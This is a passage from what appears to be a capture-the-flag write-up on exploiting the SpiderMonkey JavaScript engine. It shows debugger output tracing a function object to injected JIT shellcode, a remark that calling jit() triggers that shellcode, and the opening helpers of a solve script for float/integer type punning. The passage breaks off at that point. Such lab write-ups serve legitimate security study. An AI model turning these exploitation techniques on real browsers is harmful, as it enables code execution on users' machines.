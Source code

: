 ```js
// ...
[+] found! at 0x2ee6548dedaa

{
  "type": "object",
  "address": "(JSObject*)0x34dfb45634d8",
  // ...
  "reservedSlots": {
    "0": "2593",
    "1": "<LexicalEnvironment @ (JSObject*)0x34dfb453c040>",
    "2": "2.8722707840002e-310 / <private @ 0x34dfb455e380>",
    "3": "'jit' @ (JSAtom*)0x34dfb4557a60"
  },
  // ...
}
```

```c
pwndbg> tele 0x34dfb45634d8
00:0000│  0x34dfb45634d8 —▸ 0x34dfb453a140 —▸ 0x34dfb4539088 —▸ 0x555557e38e00 (js::FunctionClass) —▸ 0x5555557a444f ◂— ...
01:0008│  0x34dfb45634e0 —▸ 0x5555557a9130 (emptyObjectSlotsHeaders+16) ◂— 0x100000000
02:0010│  0x34dfb45634e8 —▸ 0x5555557a9100 (emptyElementsHeader+16) ◂— 0xfff9800000000000
03:0018│  0x34dfb45634f0 ◂— 0xfff8800000000a21 /* '!\n' */
04:0020│  0x34dfb45634f8 ◂— 0xfffe34dfb453c040
05:0028│  0x34dfb4563500 —▸ 0x34dfb455e380 —▸ 0x2ee6548dedaa ◂— push 0x67616c66
06:0030│  0x34dfb4563508 ◂— 0xfffb34dfb4557a60
07:0038│  0x34dfb4563510 —▸ 0x34dfb453a140 —▸ 0x34dfb4539088 —▸ 0x555557e38e00 (js::FunctionClass) —▸ 0x5555557a444f ◂— ...
```

Finally, we just need to (5) call `jit()` (since the underlying object has been directly modified) to trigger the shellcode.

Full solve script:

```js
let arr_buf = new ArrayBuffer(8); /* shared buffer */
let f64_arr = new Float64Array(arr_buf); /* buffer for float */
let b64_arr = new BigUint64Array(arr_buf); /* buffer for bigint */
let ui8_arr = new Uint8Array(arr_buf); /* buffer for uint8 */

function ftoi(f) {
    f64_arr[0] = f;
    return b64_arr[0];
}

function itof(i) {
    b64_arr[0] = i;
    return f64_arr[0];
}

function btoi(b) {
  for (let i = 0; i < 8; i++) {
    ui8_arr[i] = b[i];
  }
  return b64_arr[0];
}

function itob(b, val) {
  b64_arr[0] = val;
  for (let i = 0; i < 8; i++) {
    b[i] = ui8_arr[i];
  }
}
```